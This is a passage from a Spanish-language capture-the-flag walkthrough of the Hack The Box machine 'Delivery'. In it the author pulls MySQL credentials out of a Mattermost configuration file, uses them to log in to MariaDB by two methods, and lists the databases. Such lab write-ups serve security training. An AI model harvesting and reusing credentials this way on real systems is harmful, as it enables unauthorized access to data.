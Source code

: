 Ehh opa, conseguimos lo que parecen ser unas credenciales del servicio **MySQL** (gestor bases de datos):

* **mmuser:Crack_The_MM_Admin_PW**, una pw bastante extraña.

> Al parecer es un atributo propio de **Mattermost** y no algo hecho a posta por **ippsec**: [mattermost - config-in-database](https://docs.mattermost.com/administration/config-in-database.html).

Probemos a ver si son válidas:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 556
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 557
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

**(Solo quería mostrarles dos maneras de hacerlo :P)**

Son válidas e.e Pues enumeremos las bases de datos y su información...

...

### Buscando en MySQL

Tenemos:

```mysql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]>
```
